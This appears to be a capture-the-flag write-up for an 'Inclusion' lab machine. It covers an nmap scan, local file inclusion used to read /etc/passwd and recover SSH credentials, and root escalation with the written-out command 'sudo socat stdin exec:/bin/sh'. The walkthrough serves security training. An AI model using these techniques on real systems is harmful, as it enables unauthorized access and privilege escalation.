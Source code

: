 What we can learn from this machine :
* enumerations
* local-file-inclusion (LFI)
* socat

```
# Nmap 7.91 scan initiated Fri Jun 11 15:50:08 2021 as: nmap -sC -sV -sT -A -oN nmap/nmap-output 10.10.65.107
Nmap scan report for 10.10.65.107
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 15:50:44 2021 -- 1 IP address (1 host up) scanned in 36.00 seconds
```
Looks like we got the port 80 http website named **My blog** and port 22 ssh.

----webpage-----

Let's look into that blog posts. After we change into that post. You can see our url change into the **article?name=hacking** looks like file inclusion.

Documentation abot LFI : https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/

Let's try to get **/etc/passwd** list from this.

---passwd---

Looks like we got our username:password let's try to log into our user through ssh.

```bash
─[visith@parrot]─[~/CTF/thm/Inclusion]
└──╼ $ssh falconfeast@10.10.65.107
The authenticity of host '10.10.65.107 (10.10.65.107)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.107' (ECDSA) to the list of known hosts.
falconfeast@10.10.65.107's password: 
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```
We got the user flag let's get the root privilege. Before running any of the enumeration scripts. Let's look what we can run.

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
**socat** looks like we can run socat without passwd. Let's visit to *GTFObins* and grab a command.

https://gtfobins.github.io/gtfobins/socat/#sudo

-----gtfobins-------

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cd /root
ls
root.txt
```

Thx for reading !! 
Have a nice day